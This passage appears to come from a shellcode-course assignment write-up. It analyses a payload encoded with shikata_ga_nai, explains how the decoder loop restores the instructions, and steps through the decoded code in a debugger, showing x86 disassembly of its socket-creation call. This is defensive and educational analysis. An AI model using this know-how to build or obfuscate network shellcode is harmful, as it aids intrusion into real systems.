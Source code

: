 ``First decodification of obfuscated code using shikata_ga_nai``

This way, the instruction located at *0x0804a053* changes 4 bytes starting from address
*0x0804a059*, which decodes the first 2 instructions encoded.

After the loop finishes its execution, the decoded shellcode can be studied.

![](../Images/24_slae_assignment_5.png)

``Decoded shellcode``

---
Now, the current exploit starts.  

First, the program creates a socket for **AF_INET**.
````
=> 0x0804a05b <+27>:	xor    ebx,ebx
   0x0804a05d <+29>:	push   ebx
   0x0804a05e <+30>:	inc    ebx
   0x0804a05f <+31>:	push   ebx
   0x0804a060 <+32>:	push   0x2
   0x0804a062 <+34>:	push   0x66
   0x0804a064 <+36>:	pop    eax
   0x0804a065 <+37>:	mov    ecx,esp
   0x0804a067 <+39>:	int    0x80
````
``Debugging socket creation``
